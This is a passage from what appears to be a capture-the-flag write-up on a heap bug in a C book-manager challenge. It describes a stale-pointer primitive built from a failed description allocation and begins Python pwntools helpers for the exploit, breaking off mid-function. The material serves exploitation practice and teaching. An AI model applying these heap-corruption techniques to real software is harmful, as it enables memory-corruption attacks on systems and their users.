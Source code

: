 ```C
			case 4:
				idx = get_idx_book();
				if(!books[idx]) {
					printf("Book not exists\n");
					break;
				}
				free(books[idx]->desc);
				free(books[idx]);
				books[idx] = NULL;
				break;
			case 5:
				goto done;
				break;
			default:
				printf("Not implemented\n");
				break;
		}
		printf("Done\n");
	}
done:
	printf("Bye!\n");
}
```
## The bug

The bug lies in a combination of case 1 and case 2:

1. Alloc a book with a desc_len of 0x28
2. Edit that book to have a desc_len of 0x48. We now have a free ptr we control of size 0x28 (the same as the book size)
3. Allocate another book, but when it asks for desc_len provide -1 as the length. The desc allocation will fail, but the data left over from step 1 is still inside of it

You can now control the data inside of the 2nd book allocated via, the data of desc in your first allocation, meaning you can input an arbitrary ptr. This is an extremely strong primitive.

## Exploitation

I created helper functions to easily be able to alloc, free and edit books. These were my helper functions:

```python
def create_book(idx,title,num_pages,desc,desc_len):
    io.recvuntil(b'>')
    io.sendline(b'1')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'title:')
    io.send(title)
    io.recvuntil(b'num page:')
    io.sendline(f"{num_pages}".encode())
    io.recvuntil(b"desc len:")
    io.sendline(f"{desc_len}".encode())
    io.recvuntil(b'desc:')
    io.send(desc)

def create_invalid_book(idx,title,num_pages,desc_len):
    io.recvuntil(b'>')
    io.sendline(b'1')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'title:')
    io.send(title)
    io.recvuntil(b'num page:')
```